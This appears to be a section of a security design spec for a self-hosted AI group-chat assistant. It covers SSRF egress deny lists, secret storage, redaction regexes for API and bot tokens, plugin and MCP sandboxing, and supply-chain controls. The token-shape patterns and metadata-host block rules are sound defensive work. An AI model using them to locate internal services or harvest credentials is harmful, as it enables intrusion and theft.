1. **URL parse.** WHATWG `URL` (normalizes octal/hex/decimal IPv4). Scheme `https:` only (`http:` only for `allowHttpHosts`). Reject userinfo. Ports 443/80 unless the host:port is allowlisted. Reject `localhost`, `*.localhost`, `*.local`, `*.internal`, `metadata.google.internal` and dotless names unless allowlisted.
2. **Resolve and check.** `dns.lookup(host, {all:true, verbatim:true})`; **every** resolved address must pass the deny list, or the request is rejected. Embedded IPv4 in IPv4-mapped, NAT64 and 6to4 addresses is extracted and checked against the IPv4 rules.
3. **Pin.** Connect only to the validated address via a custom `lookup` on the undici `Agent`, with the original hostname for SNI and `Host`. This defeats DNS-rebinding TOCTOU.
4. **Redirects.** Manual, max 3. Each hop repeats steps 1–3. Downgrade from https to http is rejected.
5. **Limits.** Connect 5 s, total 10 s (per purpose); max bytes counted on the **decoded** stream (default 10 MiB, defeats compression bombs); content-type allowlist per purpose.
6. **Proxies.** If `HTTPS_PROXY` is set, the proxy resolves names, so local pinning is moot. Doctor warns that the proxy must enforce egress policy (e.g. Stripe Smokescreen, as the MCP security guide suggests).
7. **Audit.** Every block emits `egress.blocked {purpose, reason, host}`, with no full URL in logs.

**Deny list** (from the IANA IPv4/IPv6 special-purpose registries plus RFC 9728 §7.7 guidance), built into a `net.BlockList`:

| Family | Ranges denied by default |
|---|---|
| IPv4 | `0.0.0.0/8`, `10.0.0.0/8`, `100.64.0.0/10` (CGNAT, incl. Tailscale), `127.0.0.0/8`, `169.254.0.0/16` (incl. cloud metadata), `172.16.0.0/12`, `192.0.0.0/24`, `192.0.2.0/24`, `192.31.196.0/24`, `192.52.193.0/24`, `192.88.99.0/24`, `192.168.0.0/16`, `192.175.48.0/24`, `198.18.0.0/15`, `198.51.100.0/24`, `203.0.113.0/24`, `224.0.0.0/4`, `240.0.0.0/4` (incl. `255.255.255.255`) |
| IPv6 | `::/128`, `::1/128`, `::/96` (IPv4-compatible), `::ffff:0:0/96`†, `64:ff9b::/96`†, `64:ff9b:1::/48`, `100::/64`, `2001::/23` (incl. Teredo), `2001:db8::/32`, `2002::/16`†, `3fff::/20`, `5f00::/16`, `fc00::/7`, `fe80::/10`, `fec0::/10`, `ff00::/8` |

† The embedded IPv4 address is checked as well.

**Allowlist:** `network.egress.allowPrivate: ["nas.local:443", "192.168.1.20:8443"]`, exact host:port, no wildcards, **host-only** (SD-21). Local model servers (`models.local.baseUrl`) are allowed for the model gateway only, never for `safeFetch` purposes.

### 3.10 Secrets handling
- **Sources.** Env, or `<NAME>_FILE` for every secret (generic config-loader rule): `ANTHROPIC_API_KEY`, `OPENAI_API_KEY`, `GEMINI_API_KEY`, `TELEGRAM_BOT_TOKEN`, `DISCORD_BOT_TOKEN`, `SLACK_BOT_TOKEN`, `SLACK_APP_TOKEN`, `MATRIX_ACCESS_TOKEN`, `COMVIVO_IMAP_PASSWORD`, transcription/search provider keys, `COMVIVO_MASTER_KEY`. `.env` is loaded only if mode ≤ 0600.
- **Never in** DB, YAML, traces, exports or logs (S2).
- **Runtime-acquired credentials** (MCP OAuth tokens, Matrix device tokens from login flows) go to the **vault**: `data/keys/vault.enc`, AES-256-GCM under the vault key, versioned, atomic writes. The vault is included in backups (encrypted) and never in exports.
- **Host-entered extension secrets** (`village plugin secret set`, `village mcp client secret set`; `10` §3.3.2, §3.9.1) are also vault entries, namespaced `plugin/<id>/[<groupId>/]<key>` and `mcp/<id>/<name>`, never plaintext files. `COMVIVO_PLUGIN_<ID>_<KEY>` / `COMVIVO_MCP_CLIENT_<ID>_<NAME>` env (or `_FILE`) take precedence. A plugin receives only its declared secrets, over RPC, bound to `boundHosts`.
- **Appliance secrets** (01 §14 A29). On Home Assistant, Umbrel and CasaOS installs the host may enter host-only secrets (provider API keys, bot tokens, `COMVIVO_IMAP_PASSWORD`) once through the token-gated web setup page (`09`). They are stored in `data/keys/secrets.enc`: the same AEAD container as the vault (AES-256-GCM, 96-bit random nonce, versioned, atomic write, 0600), keyed by the vault key with AAD `"comvivo/v1/secrets.enc" ‖ instanceId ‖ version` for domain separation. Entries are `{name, value, setAt, setVia}`; names are restricted to the secret names above. Precedence: env and `*_FILE` > `secrets.enc`. Never in the DB, YAML, traces, exports or logs (S2); included in encrypted backups like the vault. Changing an entry requires the setup token (before the host claim) or host step-up (A9). They remain host-only keys (A14).
- **Adapter state dirs** (Matrix crypto store, signal-cli data) live under `dataDir` at 0700. If an SDK offers a store passphrase, it is derived via `HKDF(RDK, "comvivo/v1/store/<adapter>")` (`06`).
- **Redaction** (`@comvivo/shared/logger`) has three layers:
  1. pino `redact` paths: `*.token`, `*.apiKey`, `*.password`, `*.secret`, `*.authorization`, `headers.cookie`, `headers.authorization`, `*.key`;
  2. a pattern scrubber on every serialized string field: Village prefixes (`vs1_`, `vmcp_`, `vml1.`, `vlp_`, `vics_`, `vctl_`, `VLG-`, `VRK1-`), `sk-ant-…`, `sk-…`, `xoxb-`/`xoxp-`/`xapp-`, the Telegram token shape `\d{6,12}:[A-Za-z0-9_-]{30,}`, `AIza[0-9A-Za-z_-]{35}`, Discord token shape, PEM blocks, and long base64 blobs adjacent to `key`/`secret`;
  3. **SDK errors are never logged raw.** They are mapped to typed errors with allowlisted fields (status, type, request-id).
- **Child processes** get an explicit env allowlist (`PATH`, `TZ`, `LANG`, `NODE_ENV`, plus declared, host-mapped secrets). The parent's secrets are removed from `process.env` after load.
- **Doctor checks** (§4 `DoctorCheck`; implemented in M9-T85). There is **one** doctor registry, owned by `09` §3.11.6 (`apps/server/src/diagnostics/checks/*.ts`); `11` §3.11 and `12` add their own checks to it. `D-xx` is the stable alias used in security docs; the "09 id" column is the registry id. Statuses use the registry union `pass | info | warn | fail | skip`.

| ID | 09 id | Check | Severity |
|---|---|---|---|
| D-01 | `fs.modes` | `dataDir` 0700, `keys/` 0700, keyfile/keyring/vault/control token 0600, owned by the service UID | fail |
| D-02 | `fs.modes`, `security.env-git` | `.env` ≤ 0600; `.env` inside a git work tree and not ignored | fail / warn |
| D-03 | `security.secrets-in-config` | `comvivo.yaml` and DB settings contain no secret-shaped strings | fail |
| D-04 | `security.encryption` | DB header is not plaintext while `encryptAtRest:true`; partial-encryption fallback reported | fail / warn |
| D-05 | `keys.recovery` | Recovery slot exists; never verified or last verification > 180 days | warn |
| D-06 | `backups.recent` | Backups enabled, latest success < 36 h (the same threshold as `12`'s `/healthz` `degraded: backups`), headers parse, keep count honored | warn |
| D-07 | `dashboard.exposure` | Exposure mode is coherent (non-loopback without TLS/proxy/insecure flag → fail); HTTPS magic links enabled → warn with the S8 residual risk | fail / warn |
| D-08 | `runtime.node` | Node version (< 24.11 fail); permission-model network flag available (≥ 25) for plugins (Node 24 → warn) | warn / fail |
| D-09 | `security.root` | Running as root (fail in Docker) | warn / fail |
| D-10 | `security.debug-and-key-source` | `COMVIVO_DEBUG_CONTENT` on; master key from env (not `_FILE`) | warn |
| D-11 | `security.egress` | Provider egress summary; Local-only coherence | info / fail |
| D-12 | `security.plugins` | Plugins/MCP servers unapproved or with changed hashes | fail |
| D-13 | `channels.<id>` | Platform exposure: Telegram `can_join_groups`; Discord bot public; excess bot permissions (admin) | warn |
| D-14 | `time.clock` | Clock skew > 30 s warn, > 5 min fail | warn / fail |
| D-15 | `security.proxy` | `HTTPS_PROXY` set (pinning moot) | info |
| D-16 | `security.logs` | Log files 0600, rotation configured (only when `logging.file.enabled`) | warn |

- **`village doctor --bundle [path]`** (`09` §3.11.3, scrub layers in `11` §3.11) writes a redacted bundle (versions, config with secrets removed, doctor results, recent ring-buffer log lines at ≥ info) **for the user to attach manually**. It is never uploaded.

### 3.11 Model provider exposure

#### 3.11.1 What leaves the host, per route
| Route | Sent to the configured provider | Whose data can be included | Local alternative |
|---|---|---|---|
| `chat` (group turn) | Charter, tool catalog, constitution charter, group profile (names, roles, timezones), group story, audience-readable memories, typed constraints, recent window, trigger, tool results | All members (group-labeled data), requester | Local preset |
| `chat` (DM turn) | The above + the requester's private memories and DM history | That member | Local preset |
| `route` | Recent window (≤ 12 messages) + trigger | Group members | Local |
| `extract` | Batches of messages from one conversation (consenting members); **DM extraction sends DM text** | Group members; the DM owner | Hybrid |
| `declassify` | Owner's private items with `influence=constraints` + closed constraint schema | The owner (possibly `sensitive`) | **Hybrid** |
| `guard` (judge, when deterministic checks are inconclusive) | Draft + minimized candidate sealed items (`03` defines minimization) | Owners of sealed items | Hybrid |
| `consolidate` | Group-readable memories and decisions (Batches API) | Group | Local |
| `embed` | **Local by default.** If API: memory texts including private ones | All | Default |
| `transcribe` | **Local by default.** If API: voice-note audio | Sender | Default |
| media (vision/pdf) | Images and PDF text to the `chat`/`extract` provider | Sender / conversation audience | Local vision model if configured |
| web search (opt-in) | Query strings | Requester | — |
| MCP remote tools | Arguments, within the server's approved data ceiling (§3.14) | Per approval | — |
| Update check (opt-in) | `GET` static JSON with a generic `User-Agent`: reveals the IP only (`12` §3.4.4) | — | Off by default |

Provider-specific hygiene (`05`):
- OpenAI Responses API calls set `store: false`.
- Anthropic Files API is not used for member content.
- Prompt caches are org-scoped by providers. Use one API key per instance; never share keys across unrelated instances.

#### 3.11.2 Modes
- **Cloud** (default presets).
- **Hybrid**, via `privacy.sensitiveRoutesLocal: true`:
  - `declassify`, `guard`, DM `extract` and `embed` run on the local model;
  - `chat` stays cloud;
  - boot fails if no local model is reachable.
- **Local-only**, via `privacy.localOnly: true`, fail-closed:
  - every route resolves to loopback, LAN-allowlisted or host-listed model hosts;
  - transcription and embeddings must be local;
  - web search is disabled;
  - remote MCP is allowed only if allowlisted;
  - the update check is off;
  - the dashboard shows a "Local-only" badge;
  - CI proves zero non-platform egress (S12).

  Chat platforms still carry messages: Local-only means "no AI provider", not "offline". Fully offline is possible with the web channel and a LAN Matrix homeserver.

#### 3.11.3 Provider data-handling notes (link, don't overclaim; checked 2026-11-01)
| Provider | What their published policy says (summary) | Source |
|---|---|---|
| Anthropic API | Commercial (API) inputs/outputs are not used for training by default. Deleted from the backend within 30 days, with exceptions (longer-retention services such as the Files API, ZDR agreements, Usage Policy enforcement — flagged content up to 2 years — and legal requirements) | [privacy.claude.com: retention](https://privacy.claude.com/en/articles/7996866-how-long-do-you-store-my-organization-s-data), [training](https://privacy.claude.com/en/articles/7996868-is-my-data-used-for-training) |
| OpenAI API | Not used for training unless opted in. Abuse-monitoring logs kept up to 30 days by default. ZDR/Modified Abuse Monitoring by approval. Responses `store` defaults to ≥ 30 days of retention (we send `store:false`) | [developers.openai.com/api/docs/guides/your-data](https://developers.openai.com/api/docs/guides/your-data) |
| Google Gemini API | **Unpaid tier:** content used to improve products; human review possible. **Paid tier:** not used to improve products, logged for a limited time for abuse detection | [ai.google.dev/gemini-api/terms](https://ai.google.dev/gemini-api/terms) |
| Local (Ollama, LM Studio, llama.cpp, vLLM) | Stays on the host or LAN. A remote `baseUrl` makes it a provider | — |

- The wizard **warns strongly about the Google unpaid tier** and refuses it when the group has child members.
- Docs state: "Village does not control or verify these policies; they change; read them yourself."

#### 3.11.4 In-product disclosures (copy lives in versioned templates, `05`/`06`/`09`)

**Setup wizard (`village init`):**
> **Where your group's data goes.** Village runs on this machine and keeps its database here, encrypted. To think, it sends parts of conversations to **{provider}** ({models}): replies use what the audience may see; DMs include that member's own private notes; private notes are summarized into safe "constraints" by {declassifyProvider}. Embeddings and voice transcription run {locally|on {provider}}. {provider}'s policy: {link}. You can switch to Hybrid or Local-only at any time (`village config set privacy.sensitiveRoutesLocal true` or `village config set privacy.localOnly true`, then restart). [Continue] [Show per-route details]

**Host-trust acknowledgment (wizard):**
> As the host you can technically read everything Village stores: you hold the key. Village will tell members that you run it. Never enable content debugging without telling the group; Village will announce it if you do. [I understand]

**Group intro (posted when the group is bound; `03` consent flow decides timing):**
> Hi, I'm Village, an AI assistant this group added. I'm run by **{hostName}** on their own server. How I work:
> • I read this chat to remember plans, dates and decisions. Say "Village, don't remember my messages" any time.
> • DMs with me stay private. Other members, including admins, can't see them; {hostName}, who runs the server, technically could.
> • To answer, I send parts of conversations to {provider} ({policyShortLink}).
> • I'm an AI and can be wrong. I don't give medical, legal or financial advice.
> Ask me "privacy" for details.

The `privacy` command returns the per-route table filtered to this group's config, the host's name, retention settings and the member's own controls.

#### 3.11.5 Minors and provider policies
- Anthropic publishes **guidelines for organizations serving minors** (safeguards, AI disclosure, compliance with laws such as COPPA).
- OpenAI's **Under-18 API guidance** says personal data from children under 13 should not be sent without zero data retention.

SD-24 implements this:
- child DMs are off until a guardian enables them;
- the enable flow shows the provider notice;
- with a cloud provider and an under-13 age band, the wizard recommends Hybrid/Local and requires an explicit guardian acknowledgment;
- the child-safety charter layer (`05`) is always on for child audiences.

### 3.12 Outbound content safety (renderers in `06`; guard rules in `03`)

| Concern | Telegram | Discord | Slack | Matrix | Signal | Web |
|---|---|---|---|---|---|---|
| Link previews off | `link_preview_options:{is_disabled:true}` | flag `SUPPRESS_EMBEDS` (1<<2) on create | `unfurl_links:false, unfurl_media:false` | Client-side: provenance policy only | Client-side: same | No unfurls |
| Mass mentions | No @all; cap per-user mentions | `allowed_mentions:{parse:[], users:[explicit ids], replied_user:false}` | Escape `&`, `<`, `>` so `<!channel>`, `<!here>`, `<!everyone>` cannot form | Set `m.mentions` explicitly (spec ≥ v1.7); never `room:true`; `@room` in the body broken with U+2060 | Mentions by UUID only | n/a |
| Markup escaping | HTML parse mode: escape `<`, `>`, `&` outside tags | Escape markdown control chars in text nodes | mrkdwn escaping | Sanitized HTML subset + plain body | Plain text | Sanitized markdown |

Rules:
- At most **5** distinct member mentions per message (`outbound.maxMentionsPerMessage`). Reminders addressed to many people use one message without mentions.
- **No group-wide notification tokens** are ever emitted in 1.0.
- **Images:** only blob attachments the audience may read. Never fetched by URL on output.
- **Buttons:** callback payloads are opaque server IDs (T-S06). Labels never contain unescaped user text.
- **Message splitting** never cuts inside an entity or link. Each split part goes through the guard together with the others.
- **Untrusted links** reproduced from emails are shown with sender and domain ("from `school-pay.example` via email from x@y") and never as a call to action.

### 3.13 Untrusted media and document processing
- **Media workers:**
  - **Placement.** `media.transcribe`, `media.vision` pre-processing, `media.pdf`, MIME parsing and ICS parsing run in **child processes** launched by the same sandbox launcher as plugins (§3.14), not in the main process.
  - **Permission flags.** `--permission`; fs-read limited to one decrypted temp file under `dataDir/tmp/<jobId>/` (0700, deleted in `finally`); fs-write limited to that dir; no net (Node ≥ 25); no child processes, except whisper.cpp/ffmpeg launched by the *parent* with fixed argv.
  - **Resources.** `--max-old-space-size=512`; wall-clock timeout 120 s.
- **PDF (pdf.js):** `isEvalSupported:false`, `disableFontFace:true`, no network fetches; pinned ≥ the version that fixes CVE-2024-4367 (4.2.67); max 100 pages; text only.
- **Images:** max 40 MP via the decoder's pixel limit; metadata (EXIF GPS) stripped before any provider call; vision requests carry no filenames.
- **Audio:** max 10 min. If ffmpeg is used, run it with `-protocol_whitelist file,pipe` (blocks HLS/HTTP SSRF) and only on local files.
- **Email:** size cap; HTML converted to text with no remote content fetched; `Authentication-Results` recorded; process only senders on `email.allowedSenders` **or** with DMARC pass, otherwise quarantine with a DM to admins (`06`/`07`).
- **ICS:** size cap of 2 MiB; recurrence expansion limited to 1,000 instances within a 2-year horizon; remote ICS only via `safeFetch`.
- **Archives** (zip/rar) are not processed in 1.0.

### 3.14 Plugin and MCP isolation requirements (SDK and protocol in `10`)

**Trust model (stated in docs and the approval UI):** plugins are code the host chose to run. Isolation contains bugs and supply-chain compromise and enforces least privilege for honest plugins. It is not a guarantee against a determined malicious plugin. In Node's own words, the permission model "does not provide security guarantees in the presence of malicious code."

**Manifest permissions (security subset; `10` §3.3.1 owns the schema and field names, this section owns what each must enforce):** `village.permissions.tools` with per-tool `risk` from `defineTool` (capability `plugin:<id>:<tool>`); `permissions.network.hosts` (exact hosts, `*.domain`, settings placeholders or flagged `*`, for brokered fetch), `network.private` (private-range access, flagged) and `network.raw` (direct sockets, discouraged, flagged red; the only trigger for `--allow-net`); `permissions.fs.scratch` (optional private scratch dir; default off); `permissions.secrets[]` (named, host-mapped, `boundHosts`); `permissions.repos` (which ToolContext entity APIs, `read`/`write`); `permissions.sensitivity` (the label-sensitivity ceiling readable); `permissions.jobs`, `digestSections`, `channels`, `skills`. Unknown keys are rejected.

**Host approval:**
- The approval step of `village plugin add <spec>` / `village plugin update <id>` (`10` §3.3; or the host role in the dashboard with step-up, for permission changes only) shows the permission diff, publisher, version, integrity (lockfile hash) and every tool name and description.
- Approval stores `sha256(manifest)`, the package integrity and `sha256(canonical tool definitions)`.
- **Any change disables the plugin until re-approved.**

**Process isolation (one process per plugin; the exact command line is `10` §3.4.2, which must satisfy these requirements):**
```
<execPath> --permission
     --allow-fs-read=<dataDir>/plugins/<id>/<version>/          # package only, read-only
     [--allow-fs-write=<dataDir>/plugins-tmp/<id>/]             # only if permissions.fs.scratch approved
     --max-old-space-size=<resources.memoryMb>                  # 10: default 128, range 64–512
     --disallow-code-generation-from-strings  --disable-proto=throw
     [--allow-net]                                              # only if permissions.network.raw approved, Node ≥ 25
     <sdk runtime child.js> --entry <abs entry> --plugin <id>
```
- No `--allow-child-process`, `--allow-worker`, `--allow-addons` or `--allow-wasi`.
- `cwd` = the read-only package prefix. Env is the minimal allowlist only (`10` §3.4.2: never `PATH`, tokens or `COMVIVO_*` secrets).
- stdio carries JSON-RPC `village-plugin-rpc/1` (zod-validated both ways; per-line cap per `10` §3.4.4, 4 MiB, sized for 1 MiB attachment chunks).
- Timeouts per `10` §3.4.4 (tool `timeoutMs` default 15 s, max 60 s; channel ops 30 s; jobs 120 s; digest render 10 s). Crash restarts back off exponentially. A circuit breaker opens after 5 failures in 10 min and posts an admin notice (`10` §3.4.3).
- Known limits we document: symlinks are followed, workers don't inherit permissions, and existing fds bypass checks. Mitigations: no symlinks are created in plugin dirs (install unpacks with symlinks rejected), and no fds are passed.

**Network egress: default deny.** On Node ≥ 25, omitting `--allow-net` makes the runtime deny sockets. On Node 24 the network is unrestricted at runtime level; doctor warns and the approval UI says "network not enforced on this Node version". Plugins use `ctx.http.fetch`, brokered to the parent through `safeFetch` + `net.hosts` + per-plugin rate limit + audit.

**Data access:** plugins never touch repositories; ToolContext APIs are IPC calls the parent executes with IFC (audience and requester authority). Results are labeled `untrusted: true`, joined with input labels and capped at 32 KiB to the model.

**Optional container runner** (`plugins.runner: docker`; M12 stretch): `--network none` (brokered fetch only), read-only rootfs, non-root, `--cap-drop ALL`, seccomp default.

**MCP client:**
1. **Configuration.** Servers come only from host config (`comvivo.yaml`/CLI), never from chat or group admins. Approval shows the **exact command and args** (stdio) or URL (remote), per the MCP security best practices.
2. **stdio servers.** Spawned with the env allowlist, an isolated cwd and no inherited fds. If `command` is `node`, the plugin permission flags apply; other runtimes get docs warnings and the optional container runner.
3. **Remote servers.** `safeFetch` only, https only. OAuth per the MCP authorization spec, tokens in the vault. Host-entered MCP client secrets (`village mcp client secret set`, `10` §3.9) are vault entries too. **No token passthrough.** OAuth metadata URLs are treated as SSRF-sensitive (MCP spec §SSRF); authorization URLs accept only `https:`.
4. **Pinning.** Tool definitions (name, description, input schema, annotations) are hashed at approval. A changed definition disables that tool and notifies the host (rug-pull defense). Descriptions are capped at 1,024 chars.
5. **Outputs.** Untrusted, fenced, size-capped. Resource reads are labeled at the requester's audience.
6. **Argument egress check.** Before a call, the executor runs `checkWrite(argsLabel, externalSink(server))`. It passes only if:
   - the args' readers include the requester;
   - sensitivity ≤ the server's approved ceiling;
   - the data is the requester's own, or group data and the server was approved for group data.

   S10 applies.
7. **Server-initiated features.** Sampling (a server asking Village's model to generate) is **off**. Elicitation goes only to the requester, in DM.

**MCP server (members' agents):**
- Endpoint and transport are owned by `10` §3.7.2: Streamable HTTP at `/mcp` on the **main HTTP listener** (no separate port), mounted only when `mcp.server.http.enabled`; never on the HA ingress listener. Exposure follows the main listener's exposure mode (§3.8.1); a host who wants MCP reachable while the dashboard stays private uses a path-scoped proxy/tunnel rule for `/mcp` only.
- PAT auth (format and hashing owned here, §3.7.12), bearer only (requests carrying cookies are rejected, so CSRF does not apply), Host and `Origin` validation (403 if not allowlisted).
- Audience = the PAT's person.
- Every response passes through the disclosure guard. Write tools follow normal policy, with `risk ≥ medium` confirmed in chat.
- The 2026-07-28 spec is stateless. Any state handles we mint are random and bound to the PAT's person (MCP spec "State handle hijacking").

### 3.15 Supply chain and release integrity

**Dependency policy.**
- Core packages (`shared`, `core`, `storage`, `engine`) add runtime deps only via a mini-ADR (CLAUDE.md §5). Criteria: actively maintained; org or ≥ 2 maintainers; provenance where available; no install scripts (or explicit `allowBuilds`); Apache-2.0-compatible OSI license; not deprecated.
- PRs that change the lockfile include a `pnpm why`-style report.

**pnpm (≥ 11; `pnpm-workspace.yaml`):**
```yaml
# NOTE (2026-11-01): since pnpm 11 these live in `pnpm-workspace.yaml`, not `.npmrc` — only auth,
# registry, TLS, proxy and local-address are still read from `.npmrc` (`01` §14 A31).
minimumReleaseAge: 4320            # MINUTES = 3 days; setting it explicitly enables strict mode
minimumReleaseAgeExclude: []       # emergency security bumps only; PR must link advisory; 2 maintainer approvals; removed after 3 days
trustPolicy: no-downgrade          # fail if a package's trust level (provenance/trusted publishing) drops
blockExoticSubdeps: true
strictDepBuilds: true              # pnpm 11+ defaults this to true; restated so a default change cannot weaken it
pmOnFail: error                    # pnpm reads devEngines.packageManager itself; Corepack is gone from Node ≥ 25
allowBuilds:                       # explicit map (NOT `onlyBuiltDependencies`, removed in pnpm 11); everything else blocked (dependency facts: 12 §3.2.2)
  "@matrix-org/matrix-sdk-crypto-nodejs": true   # postinstall fetches the prebuilt crypto binary
  onnxruntime-node: false          # its postinstall downloads the CUDA EP; ORT ships bundled binaries
  esbuild: true                    # added M0-T2: dev-only, via vite and tsx; links the prebuilt platform binary that ships as an optional dep. Never shipped to users
  # better-sqlite3-multiple-ciphers v13 and sqlite-vec ship bundled/per-platform prebuilds: no build script needed
```
Enforced beyond what YAML can express by `scripts/supply/native-policy.ts` (`pnpm supply:check`,
part of `pnpm verify`): the `allowBuilds` map must match the documented set exactly, every setting
above must hold, `minimumReleaseAgeExclude` must be empty, and no ONNX Runtime CUDA artefact may
exist in the installed tree. Rationale per dependency: `docs/architecture/native-deps.md`.
- Pin pnpm via **`devEngines.packageManager`** in the root `package.json` (preferred over the legacy `packageManager` field since pnpm 11, supports ranges, and records the resolved version in `pnpm-lock.yaml`), with **`pmOnFail: error`** in `pnpm-workspace.yaml` so a mismatched client fails rather than silently downloading. Use `pnpm/action-setup` in CI. Do **not** rely on Corepack: it is not bundled from Node 25 onward, and pnpm now does the version switching itself. `managePackageManagerVersions`, `packageManagerStrict` and `COREPACK_ENABLE_STRICT` were all removed in pnpm 11 — see `01` §14 **A31**.
- `minimumReleaseAge` is in **minutes** (so `4320` = 3 days) and already defaults to `1440` in pnpm 11+. `strictDepBuilds` now defaults to `true`, so a dependency with an install script that is absent from `allowBuilds` hard-fails the install; that is the intended behavior here. `onlyBuiltDependencies` and friends were **removed** in pnpm 11, not deprecated (`01` §14 **A31**).
- CI runs `pnpm install --frozen-lockfile`.

**Dependency updates.**
- **Renovate** (pnpm workspaces, grouping, digest pinning): `minimumReleaseAge: "3 days"`, `internalChecksFilter: "strict"`, weekly schedule, `helpers:pinGitHubActionDigests`, monthly `lockFileMaintenance`. Runtime deps never auto-merge; devDeps and digests auto-merge after green CI.
- **Dependabot alerts on**, Dependabot version PRs off. If a fork prefers Dependabot, use `cooldown.default-days: 3`.

**CI security jobs** (wired by `11`; specified here; workflow file names are the ones in `11` §3.8.1):
| Job (workflow) | Trigger | Gate |
|---|---|---|
| CodeQL (`codeql.yml`; `javascript-typescript`, `security-extended`) | PR, `merge_group`, weekly | Block on high/critical new alerts |
| OSV-Scanner (`osv.yml`; reusable workflow, PR diff + scheduled full scan) | PR, `merge_group`, nightly | Block on new known-vulnerable deps unless triaged in `osv-scanner.toml` with expiry |
| `actions/dependency-review-action` (`dependency-review.yml`) | PR, `merge_group` | Block on high+ and disallowed licenses |
| zizmor (`zizmor.yml`; GitHub Actions static analysis, SARIF) | PR touching `.github/` | Block on high |
| OpenSSF Scorecard (`scorecard.yml`) | weekly | Track; target ≥ 8 by 1.0 |
| Secret scanning + push protection | always (repo setting) | — |
| Literal-secret guard (`sec.secrets.literals`, `pnpm secrets:check`) | `pnpm verify`, PR, `merge_group` | Block on a contiguous secret-shaped literal in tracked source |
| Supply-chain policy check (`supply-policy.yml`, `sec.supply.policy`): lockfile frozen; no new `allowBuilds` without CODEOWNERS; no `git+`/tarball deps | PR, `merge_group` | Block |
| ZAP baseline + API scan (`security-dast.yml`, §3.20) | PR touching `apps/server/**`/`apps/dashboard/**`, weekly, and `workflow_call` from the release | Block on High or Medium unless ignored in `.zap/rules.tsv` with a written justification |
| Grype image scan (`anchore/scan-action` in `12`'s `release.yml`) | release, edge | Block on a critical vulnerability with a fix available |
| Jazzer.js fuzz campaigns (`nightly-security.yml`, §3.20) | nightly | Non-blocking until 1.0; crashes become regression tests |

**Secret-shaped test fixtures.** Push protection and the guard above both fire on the *shape* of a credential, and several
suites need fixtures with exactly those shapes: the scrubber canary (§3.10), `M5`'s red-team scenarios, `M11`'s media and email
injection corpora. **Assemble such fixtures at runtime from separate string literals** — the code under test receives the identical
value, because the pieces are joined before they are passed in, while no source file contains the shape. Never resolve the conflict
by allowlisting a detection or bypassing a block: a bypass is indistinguishable from the same action taken over a real key, and it
trains the reflex that lets the real one through. `scripts/security/literal-secrets.ts` carries the pattern and the exemption list,
which is deliberately limited to files that cannot do their job without naming a shape.

**GitHub hardening:**
- Branch protection on `main` (required checks per `11` §3.8.3, which include the blocking jobs above; 1 review; **2 reviews** for CODEOWNERS security paths: `packages/core/src/{ifc,policy}`, `packages/storage/src/crypto`, `packages/shared/src/{net,crypto,logger}`, `apps/server/src/http/auth`, `.github/`, `pnpm-lock.yaml`, `pnpm-workspace.yaml`).
- Default `permissions: {}` per workflow; actions pinned by SHA; no `pull_request_target`; fork PRs get no secrets.
- Release jobs run in a protected `release` environment with required reviewers. Maintainers use 2FA (hardware keys where possible); access is reviewed quarterly.

**Release integrity** (mechanics in `12`):
- **npm.**
  - **Trusted publishing (OIDC)** from the release workflow. It requires npm CLI ≥ 11.5.1; pnpm delegates to it. Provenance is automatic.
  - Package setting: *require 2FA and disallow tokens*.
  - A post-publish job verifies provenance from a clean consumer, and fails the release if pnpm logged "Skipped OIDC".
- **Containers.** Multi-arch images built per arch on native runners and merged by digest (`12` §3.10.4). BuildKit's own `provenance`/`sbom` outputs are **off**; instead `actions/attest` records SLSA provenance and a Syft (`anchore/sbom-action`) CycloneDX SBOM per platform digest, pushed to the registry; **cosign keyless** `--recursive` signature of the index digest; base image pinned by digest. Docs give the verification block from `12` §3.10.4: `cosign verify … --certificate-identity-regexp '^https://github.com/<org>/<repo>/\.github/workflows/release\.yml@refs/heads/(main|release/.+)$' --certificate-oidc-issuer https://token.actions.githubusercontent.com`, plus `gh attestation verify` and `npm audit signatures`.
- **SBOM.** `pnpm sbom --sbom-format cyclonedx --prod` per published npm package (pnpm ≥ 11) plus the Syft image SBOMs, attached to every GitHub release.
- **SLSA.** Build L2 via GitHub artifact attestations at 0.5 beta; **Build L3 by 1.0** by building in a reusable workflow that isolates build from caller (GitHub docs).
- **Reproducibility (where feasible).** `SOURCE_DATE_EPOCH` from the tag commit; CI builds npm tarballs twice and requires identical output; image reproducibility is best effort (native prebuilds), tracked but not gating.
- **Model artifacts.** Hugging Face model downloads (embeddings, whisper) pin a **revision commit** and **SHA-256** per file. Mismatch fails closed. Offline bundles are supported (`05`/`12`).

### 3.16 Privacy posture

#### 3.16.1 Principles and minimization
- **Collect only for a feature:** no contact lists; no location unless shared in chat; no birthdates (child roles use an age band); no device fingerprints (sessions store a UA summary and an IP prefix).
- **Raw `InboundEnvelope.raw`** is kept only in debug mode (spine §7.1).
- **Members with `memory_off`** are never extracted (spine §6.1). Their raw messages may appear in the live conversation window (`05`) but never become memories.
- **No surveillance features** (00 §6.3): no per-member activity reports, no read receipts, no sentiment scoring of members.

#### 3.16.2 Retention defaults (enforced by `retention.sweep`; schema in `02`)
| Data | Default | Configurable by |
|---|---|---|
| Raw messages | 90 days | Constitution (`03`), never above the host ceiling `privacy.maxMessageRetentionDays` (365) |
| Blobs | With the source message | — |
| Memories | Until superseded, retracted or forgotten; superseded items purged after 180 days | `04` |
| TurnTrace (content-free manifest: ids, labels, hashes, counts; never content) | 30 days (`traces.retentionDays`, 7–365, `11` §3.10.4); hosts may raise it up to message retention to lengthen the "why?" window | Host |
| Captured model I/O (opt-in `traces.captureModelIO`) | 7 days (1–30), encrypted, IFC-labeled | Host |
| Audit events | 1 year (hash chain re-anchored on purge) | Host |
| Magic links, pending logins, pairing codes | Purged 24 h after expiry | — |
| Sessions | Purged 30 days after expiry | — |
| Logs (file logging, if enabled) | 14 days, rotated, 0600 | Host |
| Backups | GFS (`12` §3.9): 14 daily (spine `keep`), 4 weekly, 6 monthly, 5 pre-migration; manual backups until deleted | Host |
| Debug content logs | 24 h, then auto-deleted | — |

#### 3.16.3 Zero telemetry
- No analytics, crash reporting or phone-home of any kind (ADR-017).
- **Opt-in update check:** `GET <updates.manifestUrl>` (`release-manifest.json`, hosted where maintainers have no access to request logs; `12` §3.1, §4.8) at most once a day. No identifiers, no version, no query parameters, no cookies; generic `User-Agent: village-update-check`.
- The manifest may carry `advisories[]`, shown to the host only.

#### 3.16.4 Member rights mapped to features (GDPR concepts as orientation)
| Right / concept | GDPR article | Village feature | Owner |
|---|---|---|---|
| Information/transparency | Art. 12–14 | Group intro, `privacy` command, Privacy & Trust page | 03, 13 |
| Access | Art. 15 | "What do you know about me?", dashboard memory explorer (own view) | 04, 09 |
